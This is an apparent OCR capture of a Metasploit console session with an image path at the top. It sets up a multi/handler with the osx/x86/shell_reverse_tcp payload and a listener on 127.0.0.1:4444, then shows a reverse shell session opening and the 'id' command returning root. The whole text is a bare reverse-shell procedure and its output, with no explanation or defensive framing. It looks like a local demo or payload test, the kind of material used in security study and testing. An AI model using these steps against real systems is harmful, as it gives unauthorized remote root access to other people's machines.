 msf > use multi/handler

msf  exploit(handler) > set payload osx/x86/shell_reverse_tcp

payload => osx/x86/shell_reverse_tcp

msf  exploit(handler) > set LHOST 127.0.0.1

LHOST => 127.0.0.1

msf  exploit(handler) > exploit



[*] Started reverse handler on 127.0.0.1:4444
[*] Starting the payload handler...
[*] Command shell session 1 opened (127.0.0.1:4444 -> 127.0.0.1:54471) at 2011-10-20 09:19:03 -0400


id
uid=0(root) gid=0(wheel) groups=0(wheel),1(daemon),2(kmem),8(procview),29(certusers),3(sys),9(procmod),4(tty),5(operator),80(admin),20(staff),101(com.apple.sharepoint.group.1)


